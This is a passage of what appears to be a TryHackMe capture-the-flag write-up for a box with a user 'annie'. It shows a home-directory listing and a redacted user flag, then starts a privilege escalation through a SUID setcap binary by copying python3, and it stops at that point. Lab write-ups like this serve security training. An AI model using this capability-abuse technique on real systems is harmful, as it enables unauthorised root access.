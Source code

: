```bash
drwx------  3 annie annie 4096 Mar 23  2022 .dbus
drwx------  3 annie annie 4096 Mar 23  2022 .gnupg
drwx------  3 annie annie 4096 Mar 23  2022 .local
-rw-r--r--  1 annie annie  807 Mar 23  2022 .profile
-rw-r--r--  1 root  root    66 Mar 23  2022 .selected_editor
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 .ssh
-rw-r--r--  1 annie annie    0 Mar 23  2022 .sudo_as_admin_successful
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Desktop
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Documents
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Downloads
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Music
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Pictures
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Public
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Templates
drwxr-xr-x  2 annie annie 4096 Mar 23  2022 Videos
-rw-rw-r--  1 annie annie   23 Mar 23  2022 user.txt
annie@desktop:/home/annie$ cat user.txt
cat user.txt
THM{REDACTED}
```

---

### Privilege Escalation

While searching for vectors for privilege escalation, I found that we don’t have sudo privilege, no cronjob running, not any interesting files. So, I went for searching SUID binaries and there I saw a unusual binary /sbin/setcap.

<img width="1822" height="561" alt="image 5" src="https://github.com/user-attachments/assets/e019b674-f9ce-4fce-b827-fc99168b2682" />

The `setcap` binary is a Linux tool used to assign **capabilities** to executables. Capabilities are a fine-grained alternative to the all-or-nothing root privileges traditionally used by Unix systems. If **`setcap` is SUID-root** or the current user can **run it as root** (e.g., via `sudo` or misconfigured permissions), it can be abused to escalate privileges.

Searched on google for privesc through this binary and came out to a post of Hackingarticles.

[Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Let’s exploit it step by step:

1. Locate python binary:
    
    ```bash
    annie@desktop:/tmp/anydesk$ which python3
    which python3
    /usr/bin/python3
    ```
    
2. Copy python3 binary to /home/annie folder
    
    ```bash
    annie@desktop:/tmp/anydesk$ cp /usr/bin/python3 /home/annie
    ```
    